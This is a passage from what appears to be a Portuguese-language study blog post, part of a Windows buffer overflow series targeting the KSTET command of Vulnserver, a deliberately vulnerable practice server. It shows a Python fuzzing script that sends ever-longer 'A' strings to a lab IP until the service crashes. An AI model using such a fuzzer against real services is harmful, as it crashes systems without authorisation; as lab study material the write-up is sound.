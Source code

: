 ```yaml
---
title: Windows Vulnserver Buffer Overflow - Parte 5 Reuso de Socket
author: Hastur
date: 2021-10-06 16:00:00 -0300
categories: [Estudos, Windows Buffer Overflow]
tags: [Windows, Binary Exploitation, Buffer Overflow, Assembly, Vulnserver]
image: "/std/winbof/winbof-logo-5.png"
alt: "Buffer Overflow"
---
```


# COMANDO KSTET

O comando KSTET, assim como os demais, recebe um argumento e dá uma resposta. Neste comando temos um problema de espaço muito menor que os demais. Precisaremos pensar fora da caixa, portanto iremos explorar outa tecnica de exploração de buffer overflow.

![Enumaração do comando.](/std/winbof/winbof-62.png)

## FUZZING

Vamos reaproveitar nosso primeiro script de fuzzing, adaptando para o envio do comando KSTET.

fuzzing.py:

```python
#!/usr/bin/python3

import socket
from time import sleep
import sys

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

payload = b"KSTET " # funcao inicial
payload += b"A" * 100 # quantidade inicial de bytes 

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip,porta))
        s.send(payload + b"\r\n")
        s.recv(1024)
        s.close()
        sleep(1)
        payload = payload + b"A"*100
    except:
        print("Buffer estourado em %s bytes"%(str(len(payload))))
        sys.exit()
```
